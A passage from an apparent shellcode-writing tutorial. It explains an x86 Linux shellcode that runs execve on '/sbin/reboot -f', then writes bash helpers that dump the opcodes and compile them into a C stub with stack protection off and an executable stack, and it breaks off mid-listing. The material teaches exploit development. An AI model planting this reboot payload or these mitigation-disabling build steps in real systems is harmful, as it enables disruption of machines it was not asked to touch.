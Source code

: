This looks pretty familiar. The shellcode simply populates the registers with the arguments that execve requires:
```
int execve(const char *path, char *const argv[], char *const envp[]);
```
And then executes it. Lets go ahead and throw it in a stub c program and make sure it works but before we do, lets write a little bash function to place in our .bashrc as I’ve grown tired having to derive the proper command line incantation to dump the shellcode of a binary. Here we go:
```
function dumpsc {
  objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
}
Note: if placing shellcode in cstub doesn’t work it may be because the cut -f needs to be adjusted to account for the columns of opcodes in the objdump -d output.
```
Execellent. Now:
```
dumpsc reboot
"\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80"
```
There is our shellcode. Lets throw it in our stub C program. Actually, I’ve grown tired of doing that too. Lets write a function to do that for us:
```
function asmtocstub {
BYTES=`dumpsc $1`
CFILE="$2.c"
echo "The bytes of the shellcode are:"
echo $BYTES
echo "Writing shellcode to $CFILE"
cat << EOF > $CFILE
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = $BYTES;

int main(void)
{

  printf("Shellcode Length:  %d\n", strlen(shellcode));
  int (*ret)() = (int(*)())shellcode;
  ret();
}
EOF
gcc -g -fno-stack-protector -z execstack -m32 $CFILE -o $2
}
```
And now:
```
$ asmtocstub reboot myshellcode
The bytes of the shellcode are:
"\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80"
Writing shellcode to myshellcode.c
$ cat myshellcode.c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{

```